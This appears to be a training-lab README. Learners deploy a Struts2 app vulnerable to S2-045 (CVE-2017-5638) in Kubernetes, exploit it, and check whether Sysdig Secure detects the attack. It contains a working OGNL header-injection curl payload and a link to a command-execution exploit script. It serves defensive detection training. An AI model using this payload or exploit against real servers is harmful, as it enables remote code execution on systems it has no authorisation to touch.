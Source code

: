 # Vulnerable Struts2 (S2-045) Lab 🧪 🔬 

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application 🤖 

-  Your instructor or environment will provide the a setup.sh file and a pre-configured cluster hosting the Sysdig Detection Agent  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://<NodeIP>:30080` in a browser or use curl:
 
   curl -v http://<NodeIP>:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit 🦠 

- **Trigger the RCE** by issuing: 

curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080

- Alternatively you may use ExplpoitDB: https://www.exploit-db.com/exploits/41570
  Usage: python2 <script> <url> <command>

-----------

## 3. **Detection** 🔎 

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub" - However, will not be picked up in Sysdigas no process was spawned, no file was accessed, and no network anomalies were detected.
- However the python script does yield a Medium severity
- In Sysdig: Navigate to "Threats" -->  "Sysdig Runtime Notable Events" --> Event ID: 18191e49f34866df273474732a500c25
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 


